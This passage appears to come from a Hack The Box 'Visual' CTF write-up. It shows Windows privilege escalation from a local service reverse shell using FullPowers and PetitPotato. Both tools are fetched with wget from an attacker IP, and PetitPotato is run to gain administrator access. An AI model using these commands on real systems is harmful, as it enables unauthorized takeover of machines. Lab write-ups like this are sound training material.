 ## Privilege Escalation

This [blog](https://itm4n.github.io/localservice-privileges/) post gives you the link to a tool used to obtain more privileges. The tool is called [FullPowers](https://github.com/itm4n/FullPowers). Get it on the target machine (Make sure to use the reverse shell with `nt authority\local service`).

> We do not want the executable to be accessible through the browser so we `cd ..` back to the `xampp` directory before downloading our file.

```
wget http://10.10.14.222:8000/FullPowers.exe -o fp.exe
```

I get an error because we currently have a cmd shell and not a PowerShell one.

![nt authority user shell error](/images/HTB-Visual/shell-error-1.png)

Just run `powershell` and rerun the `wget` command.

![nt authority FullPowers dlownload](/images/HTB-Visual/powershell-fullpowers-dl.png)

Now we execute `fp.exe` and we get new privileges! Notice that it downgraded us again to a cmd shell and it also forced us out of the `xampp` folder, so we need to run `powershell` and `cd C:\xampp`.

![nt authority user new privileges](/images/HTB-Visual/nt-authority-new-priv.png)

Now we can use [PetitPotato](https://github.com/wh0amitz/PetitPotato) to achieve privilege escalation by abusing impersonate privileges.

We get it to the target by running

```
wget http://10.10.14.222:8000/PetitPotato.exe -o pp.exe
```
However we get an error

```
wget : Win32 internal error "Access is denied" 0x5 occurred while reading the console output buffer. Contact Microsoft 
```

It seems that this error is caused by the progress bar displayed on the terminal. It can be solved by running `$ProgressPreference = "SilentlyContinue"` before the `wget` command.

We can now use our file by running

```
./pp.exe 3 cmd
```
![PetitPotato exploit](/images/HTB-Visual/PetitPotato-exploit.png)

We now have admin privileges, let's check.

```
cd C:\Users\Administrator\Desktop
```

Then let's list the content of the directory, we got downgraded to a cmd shell again so we have to use `dir`.

![root flag](/images/HTB-Visual/root-flag.png)

We find the `root.txt`! Use `type root.txt` to see it.

That's it for my first Hack The Box writeup! I hope it was helpful. If you have any questions leave a comment or reach me on X [@_KScorpio](https://twitter.com/_KScorpio).
